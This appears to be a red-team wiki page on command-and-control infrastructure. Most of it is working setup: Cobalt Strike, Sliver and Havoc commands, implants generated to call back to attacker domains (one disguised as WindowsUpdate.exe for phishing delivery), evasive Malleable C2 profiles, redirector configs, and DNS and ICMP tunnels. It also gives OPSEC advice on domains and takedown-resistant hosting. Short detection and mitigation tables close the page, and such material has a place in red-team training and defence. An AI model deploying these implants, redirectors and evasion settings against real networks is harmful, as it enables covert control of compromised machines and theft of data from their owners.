


# C2 Infrastructure

> **Command and Control (C2) is the infrastructure that allows an attacker to communicate with, task, and receive data from compromised systems — it's the attacker's nervous system inside the target environment.**

---

## 🧠 What Is It?

Imagine you've placed a secret agent inside a building. That agent needs a way to receive instructions and report back without being caught. C2 infrastructure is the secure, covert communication channel between the attacker (handler) and the malware/implant (agent) running on victim machines.

The challenge: security teams are actively monitoring network traffic for exactly this. Every C2 framework provides ways to disguise this communication as legitimate traffic — browsing to a website, DNS lookups, cloud storage sync.

MITRE ATT&CK Tactic: **TA0011 — Command and Control**

---

## 🏗️ How It Works



**Traffic flow**: Operator issues command → Team Server → Listener → (optional) Redirector → over internet → Beacon on victim → executes task → result travels back same path.

---

## 📊 Diagram — C2 with Redirectors and Multiple Channels



---

## ⚙️ Technical Details

### C2 Framework Comparison

| Feature | Cobalt Strike | Sliver | Havoc | Metasploit | Brute Ratel | Covenant |
|---|---|---|---|---|---|---|
| **License** | Commercial ($3,500/yr) | Open Source (BSL) | Open Source | Open Source | Commercial ($2,500/yr) | Open Source (MIT) |
| **Language** | Java | Go | C/C++ | Ruby | C | C# / .NET |
| **Implant** | Beacon (DLL/EXE/PS1) | Sliver (Go binary) | Demon (C) | Meterpreter | Badger | Grunt (.NET) |
| **Malleable C2** | Yes (full) | Limited | Limited | No | Yes | Limited |
| **Team collaboration** | Yes (multi-operator) | Yes | Yes | Limited | Yes | Yes |
| **Evasion** | Excellent | Good | Good | Poor | Excellent | Good |
| **OPSEC** | High (if configured) | Medium | Medium | Low | High | Medium |
| **Detection rate** | High (popular) | Medium | Medium | Very high | Low (newer) | Medium |
| **Sleep/Jitter** | Yes | Yes | Yes | Yes | Yes | Yes |
| **In-memory exec** | Yes | Yes | Yes | Yes | Yes | Yes |
| **Proxy support** | Yes | Yes | No | Yes | Yes | Yes |
| **Best use case** | Professional engagements | Open-source ops | Research/learning | Rapid exploit + C2 | Stealth ops | .NET environments |

---

### Cobalt Strike — Deep Dive

**Architecture:**
- **Team Server**: Java server running on attacker VPS, manages all sessions
- **Client**: GUI that connects to team server (can run from anywhere)
- **Beacon**: Implant delivered to target (stageless preferred for OPSEC)
- **Listener**: Server-side component that receives beacon callbacks
- **Profile**: Malleable C2 profile defining exactly how traffic looks

**Beacon Types:**
| Type | Description | Use Case |
|---|---|---|
| **HTTP Beacon** | HTTP GET/POST callbacks | General use |
| **HTTPS Beacon** | Encrypted HTTP, TLS cert | Better evasion |
| **DNS Beacon** | Callbacks via DNS queries | Highly restricted egress |
| **SMB Beacon** | Named pipe C2 (internal only) | Post-pivot internal movement |
| **TCP Beacon** | Direct TCP connection | Controlled lab environments |

**Beacon Stages:**
- **Staged**: Small stager downloads full beacon from internet (detectable — stager is small PE)
- **Stageless**: Full beacon embedded in payload (larger but no staging traffic, better OPSEC)

```bash
# Start team server
./teamserver 0.0.0.0 'TeamServerPassword' /path/to/malleable.profile

# Generate stageless beacon (HTTPS, x64)
# In Cobalt Strike GUI: Attacks > Packages > Windows Executable (Stageless)
# Or via aggressor script:
artifact --payload windows/beacon_https/reverse_https --arch x64 --format exe --output beacon.exe
```

**Cobalt Strike Key Commands:**
```
# In beacon console:
sleep 60 30          # Sleep 60s, 30% jitter
shell whoami         # Run shell command
powershell Get-Process  # PowerShell command
execute-assembly SharpHound.exe -c All  # Run .NET binary in memory
inject 1234 x64 tcp-local  # Inject beacon into PID 1234
spawnas DOMAIN\user password  # Spawn beacon as different user
dcsync DOMAIN.LOCAL  # DCSync via Mimikatz
hashdump              # Dump local hashes
```

---

### Sliver C2 — Complete Guide

**Installation:**
```bash
# Download latest release
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux -O sliver-server
chmod +x sliver-server

# Install as service
sudo ./sliver-server unpack --force
sudo systemctl start sliver

# Or run interactively
./sliver-server
```

**Starting Listeners:**
```bash
# Inside sliver console:
sliver > https           # Start HTTPS listener on :443
sliver > http            # Start HTTP listener on :80
sliver > dns             # Start DNS listener
sliver > mtls            # mTLS listener (mutual TLS, most secure)

# Specific port/host
sliver > https --lhost 0.0.0.0 --lport 8443
sliver > dns --domains c2.attacker.com
```

**Generating Implants:**
```bash
# Stageless HTTPS implant (Windows x64 EXE)
sliver > generate --http https://c2.attacker.com --os windows --arch amd64 \
         --format exe --save /tmp/implant.exe --name svchost_update

# Stageless (macOS)
sliver > generate --http https://c2.attacker.com --os mac --arch amd64 \
         --format macho --save /tmp/implant

# Shared library (DLL)
sliver > generate --http https://c2.attacker.com --os windows --arch amd64 \
         --format shared --save /tmp/implant.dll

# Shellcode
sliver > generate --http https://c2.attacker.com --os windows --arch amd64 \
         --format shellcode --save /tmp/implant.bin

# With jitter and reconnect options
sliver > generate --http https://c2.attacker.com --os windows \
         --reconnect 30 --max-errors 10 --name update_service
```

**Session Management:**
```bash
# List active sessions
sliver > sessions

# Interact with session
sliver > use [session-id]

# Or by name
sliver > use svchost_update

# In session:
[*] svchost_update > info           # System info
[*] svchost_update > whoami         # Current user
[*] svchost_update > ps             # Process list
[*] svchost_update > ls             # List directory
[*] svchost_update > download /path/to/file  # Download file
[*] svchost_update > upload /local/file C:\\target\\path  # Upload
[*] svchost_update > execute -o cmd.exe /c whoami  # Execute command
[*] svchost_update > shell          # Interactive shell (noisy)
[*] svchost_update > screenshot     # Take screenshot
[*] svchost_update > netstat        # Network connections
[*] svchost_update > ifconfig       # Network interfaces

# .NET assembly execution (BOF equivalent)
[*] svchost_update > execute-assembly SharpHound.exe -- -c All

# Sideload DLL
[*] svchost_update > sideload /path/to/library.dll --export ExportedFunc

# SOCKS proxy through session
[*] svchost_update > socks5 start --host 127.0.0.1 --port 1080
```

**Multiplayer (team use):**
```bash
# On server — create operator certificate
sliver-server operator --name redteamer1 --lhost 10.10.10.1 --save /tmp/redteamer1.cfg

# On operator workstation — connect to team server
./sliver-client import /tmp/redteamer1.cfg
./sliver-client
```

---

### Havoc Framework

```bash
# Build from source
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc

# Build team server
cd teamserver && go build -o teamserver . && cd ..

# Build client (Qt5 required)
cd client && cmake -S . -B build -G Ninja && cmake --build build && cd ..

# Start team server with profile
./teamserver server --profile ./profiles/havoc.yaotl

# Start client
./client
```

**Demon (Havoc implant) features:**
- Token manipulation
- NTLM hashing
- Injection (process injection / DLL injection)
- Kerberos abuse
- Built-in BOF (Beacon Object File) support
- SMB peer-to-peer

---

### Malleable C2 Profiles (Cobalt Strike)

Malleable C2 profiles define **exactly how beacon traffic looks**. A well-crafted profile makes beacon traffic indistinguishable from legitimate application traffic.

**Profile Anatomy:**
```
set sleeptime "60000";     # 60 second sleep
set jitter "20";           # ±20% jitter  
set maxdns "255";          # Max DNS hostname length
set useragent "Mozilla/5.0 (Windows NT 10.0; Win64; x64) ...";

http-get {
    set uri "/api/v1/health /api/v1/status /cdn/assets/app.js";  # Rotate URIs
    
    client {
        header "Accept" "application/json, text/plain, */*";
        header "Accept-Language" "en-US,en;q=0.9";
        header "Referer" "https://www.microsoft.com/";
        
        metadata {
            base64url;                    # Encode beacon metadata
            prepend "session=";           # Looks like session cookie
            header "Cookie";
        }
    }
    
    server {
        header "Content-Type" "application/json";
        header "Cache-Control" "no-cache";
        header "X-Powered-By" "Express";
        
        output {
            base64url;
            prepend "{\"status\":\"ok\",\"data\":\"";
            append "\"}";
            print;
        }
    }
}

http-post {
    set uri "/api/v1/telemetry";
    
    client {
        header "Content-Type" "application/json";
        
        id {
            base64url;
            prepend "{\"client_id\":\"";
            append "\",\"data\":\"";
            uri-append;
        }
        
        output {
            base64url;
            append "\"}";
            print;
        }
    }
    server {
        header "Content-Type" "application/json";
        output {
            print;
        }
    }
}

# Process injection settings
process-inject {
    set startrwx "false";           # Don't allocate RWX memory (suspicious)
    set userwx   "false";           # Don't use RWX for injected code
    set bofflags "0x100";
    set prepend_appended_x86 "";
    set prepend_appended_x64 "";
    
    transform-x86 {
        prepend "\x90\x90";         # NOP sled
    }
    transform-x64 {
        prepend "\x90\x90";
    }
    
    execute {
        CreateThread "ntdll!RtlUserThreadStart";    # Thread start function
        NtQueueApcThread-s;                          # APC injection
        CreateRemoteThread;
        RtlCreateUserThread;
    }
}
```

**Ready-made profiles (community):**
```bash
git clone https://github.com/threatexpress/malleable-c2
# Profiles mimicking: jQuery, Pandoc, Amazon, Bing
```

---

### Redirectors

Redirectors sit between the internet and your team server, hiding the team server's real IP.

#### Apache mod_rewrite Redirector

```bash
# Install Apache
apt install apache2

# Enable modules
a2enmod rewrite proxy proxy_http ssl headers

# Create redirector config
cat > /etc/apache2/sites-available/c2-redirector.conf << 'EOF'
<VirtualHost *:443>
    ServerName cdn.legitimate-looking-domain.com
    
    SSLEngine on
    SSLCertificateFile    /etc/letsencrypt/live/cdn.legitimate-looking-domain.com/fullchain.pem
    SSLCertificateKeyFile /etc/letsencrypt/live/cdn.legitimate-looking-domain.com/privkey.pem
    
    # Only proxy valid C2 URIs — block everything else
    RewriteEngine On
    RewriteCond %{REQUEST_URI} ^/api/v1/health [OR]
    RewriteCond %{REQUEST_URI} ^/api/v1/status [OR]
    RewriteCond %{REQUEST_URI} ^/api/v1/telemetry
    RewriteRule ^(.*)$ https://10.10.10.1:443%{REQUEST_URI} [P,L]  # Team server IP
    
    # Send invalid requests to real legitimate site (deception)
    RewriteRule ^(.*)$ https://microsoft.com%{REQUEST_URI} [R=302,L]
    
    # User-agent filter (only forward if beacon UA matches)
    RewriteCond %{HTTP_USER_AGENT} "Mozilla/5.0 \(Windows NT 10.0; Win64; x64\)" [NC]
    
    ProxyPassReverse / https://10.10.10.1:443/
    
    # Forward real client IP to team server
    RequestHeader set X-Forwarded-For %{REMOTE_ADDR}s
</VirtualHost>
EOF

a2ensite c2-redirector.conf
systemctl reload apache2
```

#### Nginx Redirector

```nginx
# /etc/nginx/sites-available/c2-redirector
server {
    listen 443 ssl;
    server_name cdn.attacker-infra.com;
    
    ssl_certificate /etc/letsencrypt/live/cdn.attacker-infra.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/cdn.attacker-infra.com/privkey.pem;
    
    # Only forward specific URIs
    location ~* ^/(api/v1/health|api/v1/status|api/v1/telemetry) {
        # User-agent check
        if ($http_user_agent !~* "Mozilla/5.0") {
            return 302 https://microsoft.com;
        }
        proxy_pass https://10.10.10.1:443;
        proxy_ssl_verify off;
        proxy_set_header Host $host;
        proxy_set_header X-Real-IP $remote_addr;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    }
    
    # Redirect everything else
    location / {
        return 302 https://microsoft.com$request_uri;
    }
}
```

#### Socat Redirector (Quick & Dirty)

```bash
# Redirect port 443 to team server 10.10.10.1:443
socat TCP4-LISTEN:443,fork TCP4:10.10.10.1:443

# With SSL (for HTTPS)
socat OPENSSL-LISTEN:443,cert=server.pem,verify=0,fork TCP4:10.10.10.1:443

# As background service
nohup socat TCP4-LISTEN:443,fork,reuseaddr TCP4:10.10.10.1:443 &
```

---

### C2 Over Different Channels

#### DNS C2 — T1071.004

DNS C2 is the most firewall-resistant channel — almost all networks allow outbound DNS.

**How it works:**
- Data encoded in DNS query hostnames: `data.encoded.c2.attacker.com`
- Responses carry data in TXT/A/AAAA records
- Very slow (limited by DNS packet size ~253 bytes per query)
- Used when all other channels are blocked

**dnscat2 (DNS C2 tool):**
```bash
# Server side
ruby dnscat2.rb --dns "domain=c2.attacker.com,host=0.0.0.0" --secret "s3cr3t"

# Client (Windows) — dnscat2-powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -Domain c2.attacker.com -PreSharedSecret s3cr3t

# Client (Linux)
./dnscat --secret s3cr3t c2.attacker.com
```

**iodine — DNS tunnel for full IP tunneling:**
```bash
# Server
iodined -f -c -P password 10.0.0.1 tunnel.attacker.com

# Client
iodine -f -P password tunnel.attacker.com
# Creates tun0 interface — full TCP/IP over DNS
```

**Cobalt Strike DNS Beacon config:**
```bash
# Cobalt Strike profile DNS settings
dns-beacon {
    set dns_idle "8.8.8.8";          # Beacon idle indicator
    set dns_sleep "0";
    set maxdns "255";
    set dns_ttl "1";
    
    set get_A "beacon.c2.attacker.com";
    set get_AAAA "beacon6.c2.attacker.com";
    set get_TXT "data.c2.attacker.com";
    set put_metadata "meta.c2.attacker.com";
    set put_output "out.c2.attacker.com";
}
```

---

#### HTTP/HTTPS C2 — T1071.001

Most common. Traffic blends with normal web browsing.

```bash
# Cobalt Strike HTTPS listener setup
# In CS GUI: Listeners > Add
# Type: beacon_https
# Port: 443
# Host: cdn.attacker-cdn.com (redirector hostname)

# Verify beacon traffic with Wireshark
# Should look like: GET /api/v1/health HTTP/1.1
#                   Host: cdn.attacker-cdn.com
#                   Cookie: session=<base64_encoded_beacon_data>
```

---

#### SMB C2 — T1071 (Peer-to-Peer)

SMB beacons communicate via **named pipes** — no outbound internet needed. Used for machines without internet access after pivoting.

```
Architecture:
Internet → HTTPS Beacon (pivot host) ←→ SMB Beacon (internal host, no internet)
```

```bash
# Cobalt Strike: create SMB listener
# Name: smb_internal
# Payload: beacon_smb
# Named Pipe: \\.\pipe\MSSE-1234-server (custom name for OPSEC)

# After gaining access to internal host via lateral movement:
# Spawn SMB beacon from existing HTTPS beacon:
beacon> spawn smb_internal  # Spawns SMB beacon on current host

# Or inject into process
beacon> inject 4200 x64 smb_internal  # Inject into PID 4200

# Link beacons (HTTPS beacon receives commands for SMB beacon)
beacon> link 192.168.1.50 \\.\pipe\MSSE-1234-server
```

---

#### ICMP C2 — T1095

Covert channel using ICMP echo request/reply packets. Very slow, but works when all TCP/UDP is blocked.

```bash
# icmpsh — simple ICMP reverse shell
# Server
sysctl -w net.ipv4.icmp_echo_ignore_all=1  # Disable OS ping replies
python3 icmpsh_m.py 10.10.10.1 <victim_ip>

# Client (Windows)
icmpsh.exe -t 10.10.10.1

# Larger capability: PingRAT
./pingrat server --lhost 0.0.0.0 --secret mysecret
./pingrat client --rhost 10.10.10.1 --secret mysecret
```

---

### Domain Fronting (Theory)

Domain fronting exploits CDN infrastructure to hide C2 traffic. The HTTPS SNI header shows a legitimate CDN domain, but the HTTP Host header routes to attacker infrastructure.

```
Victim → CDN edge (e.g., CloudFront) → Attacker's origin server
         SNI: legitimate-site.com         Host: c2.attacker.com
```

**Note**: Most major CDNs (AWS CloudFront, Azure CDN, Google) now block domain fronting. Still used via:
- Fastly (with proper configuration)
- Some smaller CDNs
- Meek (Tor pluggable transport) uses a similar technique

---

### C2 Infrastructure OpSec

#### Domain Selection
```bash
# Criteria for C2 domains:
# 1. Aged (>6 months) — use expireddomains.net
# 2. Previously categorised as benign (business/tech)
# 3. Valid SSL certificate
# 4. Reputation score checked

# Check domain categorisation
curl "https://www.bluecoat.com/en-us/categorization-lookup" # Symantec
# Fortiguard: https://www.fortiguard.com/webfilter
# McAfee: https://www.trustedsource.org

# Check domain reputation
dig TXT <domain> @dns.google  # DNS blacklist check
curl "https://check.torproject.org/api/bulk?ip=<ip>"
python3 -c "import socket; print(socket.gethostbyname('<domain>'))"

# Tools
domainreputationcheck.com
# VirusTotal domain lookup
curl "https://www.virustotal.com/api/v3/domains/<domain>" \
  -H "x-apikey: <your_api_key>"
```

#### VPS Selection (Privacy-Respecting)
```
Recommended for red team ops (accept crypto, minimal logs):
- Mullvad VPS
- 1984.is (Iceland, strong privacy laws)
- FlokiNET (Romania/Iceland)
- Njalla (proxy domain registration)
- 

Avoid:
- AWS/Azure/GCP (easy takedown requests, known cloud ranges)
- DigitalOcean (fast abuse response)
- Vultr (common in threat intel feeds)
```

#### SSL Certificates
```bash
# Let's Encrypt (free, trusted)
certbot certonly --standalone -d c2.attacker-domain.com
# Auto-renews every 90 days

# Note: LE certs are logged in Certificate Transparency logs
# → defenders can find your C2 domains via ct.censys.io
# → Use wildcard certs or very boring subdomains
```

#### OpSec Mistakes to Avoid

| Mistake | Consequence | Prevention |
|---|---|---|
| Team server directly accessible on internet | IP exposed in logs, blocked | Always use redirectors |
| Reusing infrastructure across engagements | Previous engagement IOCs burn new one | Fresh infra each engagement |
| Port 50050 open (CS default) | Fingerprinted by Shodan/censys | Change to custom port, firewall rule |
| Default Cobalt Strike JARM fingerprint | Detected by JA3/JARM scanners | Custom profile changes JARM |
| Self-signed certs | Suspicious, easy detection | Let's Encrypt or legitimate-looking CA |
| DNS PTR record mismatch | Detected by advanced mail/proxy | Configure correct rDNS |
| HTTP404 default CS response | Shodan/masscan identifies team server | Custom 404 page in profile |
| Beacon sleep too low | High traffic volume = anomaly | 60-300s sleep + 20-30% jitter |

```bash
# Check if your team server is fingerprinted
# JARM fingerprint scanner
python3 jarm.py <teamserver_ip>:443

# Shodan query for default CS fingerprinting
# shodan search 'ssl.jarm:07d14d16d21d21d07c42d41d00041d24a458a375eef0c576d23a7bab9a9fb1'
```

---

### Detection Evasion for C2 Traffic

#### Beacon Traffic Patterns

```
Bad (detected):
- Fixed 60s interval: beacon, beacon, beacon — perfect periodicity
- Beacon immediately after boot
- Unusually large DNS TXT query responses

Good (evades):
- Jitter: 60s ± 20% → actual times: 48s, 67s, 53s, 71s...
- Working-hours-only beacon (8AM-6PM profile)
- Slow beacon for long-haul, interactive beacon only when needed
```

**Cobalt Strike working hours profile:**
```
set host_stage "false";
set sleeptime "3600000";    # 1 hour sleep normally
set jitter "33";

# Restrict to business hours via kill_date + profile logic
set kill_date "2024-12-31";
```

#### Process Injection for C2 Execution
Instead of running beacon as standalone EXE (easily detected), inject into legitimate processes:

```
beacon> ps                              # List processes
beacon> inject 4856 x64 https_listener # Inject into svchost.exe PID 4856
beacon> spawnas corp\adminuser pass123 # Spawn as different user
```

---

## 💥 Exploitation Step-by-Step

### Full Sliver C2 Setup

```bash
# === SERVER SIDE ===

# 1. Install Sliver on VPS
wget https://github.com/BishopFox/sliver/releases/latest/download/sliver-server_linux
chmod +x sliver-server_linux && ./sliver-server_linux unpack --force

# 2. Start Sliver server
./sliver-server_linux

# 3. Create HTTPS listener
sliver > https --lhost 0.0.0.0 --lport 443

# 4. Generate implant
sliver > generate \
    --http https://cdn.attacker-domain.com \
    --os windows --arch amd64 \
    --format exe \
    --save /tmp/WindowsUpdate.exe \
    --skip-symbols  # Smaller binary

# === REDIRECTOR SIDE ===

# 5. Setup nginx redirector (separate VPS)
# All HTTPS traffic to cdn.attacker-domain.com → forward to team server

# === DELIVERY SIDE ===

# 6. Deliver implant via phishing (see initial access notes)
# Victim runs WindowsUpdate.exe

# === OPERATOR SIDE ===

# 7. See incoming session
sliver > sessions
# ID        Name                Transport  Remote Address      Hostname  Username  OS
# --------  ------------------  ---------  ------------------  --------  --------  -------
# abc123de  WindowsUpdate_xyz   http(s)    192.168.1.50:49123  CORP-PC1  jsmith    windows

# 8. Interact
sliver > use abc123de

# 9. Basic recon
[server] sliver (WindowsUpdate_xyz) > whoami
[server] sliver (WindowsUpdate_xyz) > info
[server] sliver (WindowsUpdate_xyz) > ps | grep -i "lsass\|defender\|sentinel"

# 10. Execute SharpHound for AD mapping
[server] sliver (WindowsUpdate_xyz) > execute-assembly SharpHound.exe -- -c All --ZipFileName bh.zip
[server] sliver (WindowsUpdate_xyz) > download bh.zip

# 11. SOCKS proxy for tool pivoting
[server] sliver (WindowsUpdate_xyz) > socks5 start
# Now proxychains nmap / impacket works through victim!
```

---

## 🛠️ Tools

| Tool | Purpose | Key Commands |
|---|---|---|
| **Cobalt Strike** | Commercial C2 | `./teamserver 0.0.0.0 <pass> <profile>` |
| **Sliver** | Open-source C2 | `./sliver-server`, `generate --http` |
| **Havoc** | Open-source C2 | `./teamserver server --profile havoc.yaotl` |
| **Metasploit** | Multi-purpose exploit + C2 | `handler -H 0.0.0.0 -P 4444 -p windows/x64/meterpreter/reverse_https` |
| **dnscat2** | DNS C2 | `ruby dnscat2.rb --dns domain=c2.attacker.com` |
| **iodine** | DNS IP tunneling | `iodined -f -P pass 10.0.0.1 tun.attacker.com` |
| **socat** | Simple redirector | `socat TCP4-LISTEN:443,fork TCP4:teamserver:443` |
| **Nebula** | VPN mesh C2 routing | Certificate-based VPN mesh |
| **Ligolo-ng** | Tunneling | See lateral movement notes |
| **JARM** | Fingerprint TLS servers | `python3 jarm.py <ip>:443` |

---

## 🔍 Detection

| IOC Category | Detection Signal | Tool/Source |
|---|---|---|
| **Network periodicity** | Beacon callbacks at regular intervals | NetFlow, Zeek |
| **DNS C2** | Long DNS hostnames, TXT queries, unusual NXDOMAIN rate | DNS resolver logs |
| **HTTPS C2** | Low-entropy URIs, unusual User-Agent, fixed JA3 fingerprint | Proxy logs, Zeek SSL |
| **JARM fingerprint** | Known C2 framework TLS fingerprint | JARM scanner on egress |
| **Named pipe** | Unusual named pipe creation | Sysmon Event ID 17, 18 |
| **Beacon process** | Beacon injected into unusual process (word.exe → network calls) | EDR behavioral |
| **Long connections** | HTTPS connection staying open for hours | Firewall / NDR |
| **Domain generation** | DGA-like domain patterns | DNS ML detection |
| **Certificate transparency** | New certs for suspicious domains | ct.censys.io monitoring |

---

## 🛡️ Mitigation

| Control | Description |
|---|---|
| **Egress filtering** | Block all outbound except HTTP/HTTPS/DNS; require proxy authentication |
| **SSL inspection** | Break and inspect HTTPS to see beacon traffic content |
| **DNS RPZ / filtering** | Block known malicious domains; alert on DGA |
| **JA3/JARM blocking** | Block known C2 TLS fingerprints |
| **NetFlow anomaly detection** | Alert on periodic connections to external IPs |
| **Proxy for all web traffic** | All HTTP must go through authenticated proxy — blocks direct C2 |
| **DNS firewall** | Block DNS over HTTPS to prevent DNS C2 bypass |
| **EDR memory scanning** | Detect injected beacons in legitimate processes |
| **Host-based firewall** | Prevent non-browser processes from making internet connections |

---

## 📚 References

- Cobalt Strike documentation: https://hstechdocs.helpsystems.com/manuals/cobaltstrike/
- Sliver C2: https://github.com/BishopFox/sliver
- Havoc Framework: https://github.com/HavocFramework/Havoc
- Malleable C2 profiles: https://github.com/threatexpress/malleable-c2
- JARM: https://github.com/salesforce/jarm
- dnscat2: https://github.com/iagox86/dnscat2
- RedTeam.guide C2 Matrix: https://www.thec2matrix.com
- SpecterOps blog (C2 OPSEC): https://posts.specterops.io
- Cobalt Strike OPSEC guide: https://github.com/MalcomVetter/cs-opsec
